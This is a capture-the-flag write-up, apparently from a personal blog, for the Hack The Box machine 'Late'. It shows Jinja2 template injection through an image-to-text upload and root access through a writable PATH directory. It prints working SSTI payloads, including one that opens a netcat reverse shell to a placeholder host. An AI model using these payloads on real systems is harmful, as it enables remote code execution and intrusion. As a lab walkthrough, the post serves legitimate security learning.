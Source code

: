 +++
title = 'Late'
date = 2022-04-23T14:27:49+02:00
draft = false
tags = ['htb', 'writeup']
summary = '[Late](https://app.hackthebox.com/machines/Late) is an easy CTF machine. Features an SSTI in an image converter & unsecure $PATH.'
description = '"Late" is an easy CTF machine. Released on 23rd of April, 2022 (HTB).'
thumbnail = 'img/lt-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Ports

After connecting to the HackTheBox VPN we can start our enumeration. First things first we can do a port scan on the machine to see what is running:

```bash
sudo rustscan --ulimit 5000 -a 10.10.11.156 -- -sC -sV
```

After scanning the machine we find that there are two ports open. One of which is port `22`, running `OpenSSH 7.6p1` and the other is port `80` running on `nginx 1.14.0`. Scan also reveals to us that the target OS is Ubuntu. Scan results:

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa ...
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 ...
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 ...
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Webapp

Upon opening the web app we see that this page is a portfolio for image editing tools. We could start fuzzing for other directories or subdomains, but let's first explore the website.

![](img/lt-webapp.jpg)

If we scroll down we will find a link that redirects us to a different subdomain `images.late.htb`. We can now add both `images.late.htb` and `late.htb` to our `/etc/hosts` file using our favorite text editor:

![](img/lt-hosts.jpg)

Now we can visit the newly discovered subdomain. The title of it is `Image Reader`. This tool claims to convert images to text. To do that it allows us to upload an image file.

![](img/lt-subdomain.png)

Let's try out the functionality. For image creation, I will be using [Photopea](https://www.photopea.com/) which is a free Photoshop-like image editor that can be run in your browser. I created an HD image and added text that said "Test 123". Then I exported the image as JPEG and uploaded it to the site.

![](img/lt-upload.jpg)

The functionality so far works as intended. The output was a text file that wrapped the text it gathered from the image in paragraph tags. Can we somehow exploit this?

Exploitation
------------

### Identification

There are a few things that hit this function as being vulnerable. The first thing is that it is apparently created with a Python flask. Flask uses a templating engine called Jinja2. If the output to the file is inserted as a template and not filtered then we can try to perform SSTI (Server-side template injection) and gain a shell. We can test this theory by trying to submit an image that has `{{7*7}}` as its payload. Note that the best font that worked for me was "Azeret Mono".

![](img/lt-vuln.jpg)

### SSTI Exploitation

Now we know that the target is vulnerable. For the exploit, I first need to find the Popen function within python. To do this I can use the following line as text in the image:

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will return all of the subclasses. From the output, we can try to locate the Popen subclass. This can be done by trial and error, or by using sublime-text to find the index. In my case, the index of Popen is `249`. Please note that it might recognize any `5` as an `S` which you can bypass by using `4+1`. In my case that is not needed:

```python
{{ ''.__class__.__mro__[1].__subclasses__()[249] }}
```

After submitting this image, in the output, we will see the Popen subclass which we can then later use to execute code on the target.

![](img/lt-popen.jpg)

Now we can try to execute code. For that, I'll use a reverse shell from [revshells](https://www.revshells.com/). The payload that I will use in the image is the following one:
```python
{{ ''.__class__.__mro__[1].__subclasses__()[249]("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <IP> <PORT> >/tmp/f", shell=True, stdout=-1).communicate() }}
```

For the exploit image to work I used the `Azeret Mono` font and the image size that I opted for was `4000x200`. The font size for the payload was 36px which might look small on a 4k pixel strip, but in fact, that is quite big. Lastly, we can set up our Netcat listener and upload the payload:

![](img/lt-access.png)

### Persistence

Now that we have access to the machine we can set up some persistence. The first thing we see is that we are not `www-data` but a service account that has a home directory. We know that the machine has SSH open, which means we can log in via SSH using a key pair. If we explore our home directory more we find that an SSH key has already been generated which means we can use it to login on a stable SSH connection:

![](img/lt-ssh.jpg)

If getting the reverse shell was unsuccessful then you can try to cat out the `id_rsa` located at `/home/svc_acc/.ssh/id_rsa`. We can also grab the flag at `/home/svc_acc/user.txt`.

Privilege Escalation
====================

Enumeration
-----------

### Exploration

If we run any automatic scripts like PEAS then it will straight away tell us what is exploitable. If we look at the path we notice that we have two writable directories. One of which has a script in them:

![](img/lt-path.jpg)

If we look at the file we can see that it is a bash script. It looks to be triggered every time someone logins or exits SSH. The `ssh-alert.sh` script:

```bash
#!/bin/bash

RECIPIENT="<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="0f7d60607b4f636e7b6a21677b6d">[email&#160;protected]</a>"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Exploitation
------------

### Overview

Since we can write to the PATH, then we can try to hijack one of the binaries that are being run in the script. `sendmail` binary we cant hijack since it has a full path specified, but we can go for `date` or `uname` which are run in the BODY of the email before it is sent. Assuming that the script is run by a higher privilege user then we can escalate our privileges. First, we can create a script in the same directory with the name `date` and a reverse shell in it:

![](img/lt-create.jpg)

Now, all we have to do is set up a Netcat listener and exit the current SSH shell. This in turn will give us a root shell where we can grab our flag at `/root/root.txt`:

![](img/lt-root.jpg)
